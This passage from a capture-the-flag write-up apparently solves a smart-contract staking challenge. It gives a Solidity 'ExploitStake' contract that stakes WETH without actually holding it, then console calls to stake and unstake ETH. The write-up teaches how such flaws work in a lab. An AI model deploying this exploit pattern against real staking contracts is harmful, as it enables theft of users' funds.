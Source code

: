 The third condition is that we must be a staker, which means we need to deposit some ETH from our EOA (Externally Owned Account). This can be achieved by calling the `StakeETH()` function from the console.

The fourth condition is to make our staked balance zero. This means that whatever we deposited in the previous condition, we need to withdraw so that our staked balance becomes zero. This can be achieved by calling the `Unstake()` function from the console.

Now, all the conditions can be satisfied by the above steps. Below is the Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IStake{
    function StakeETH() external payable ;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
}

interface IWeth{
    function approve(address spender, uint256 value) external returns (bool);
}

contract ExploitStake{
    IStake stake;
    IWeth weth;
    constructor(address stake_addr,address _weth){
        stake=IStake(stake_addr);
        weth=IWeth(_weth);
    }

    function Exploit()public payable{
        stake.StakeETH{value: 0.0011 ether}();
        weth.approve(address(stake), 1 ether);
        stake.StakeWETH(1 ether);


    }
}
```

Deploy this contract by passing the Stake address and WETH address as arguments to the constructor. Then, call the `Exploit()` function by sending `0.0011 ether` during the call.

Once the `Exploit()` call is done, the first two conditions will be satisfied.

Now, open the console and enter the following:

```javascript
await contract.StakeETH.sendTransaction({ value: 1100000000000000 });
```

```javascript
> await contract.Unstake(1100000000000000)
```

Once you successfully complete the above two calls, the challenge will be solved, and you can submit the instance.

That's it for this challenge hope you enjoyed this challenge.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
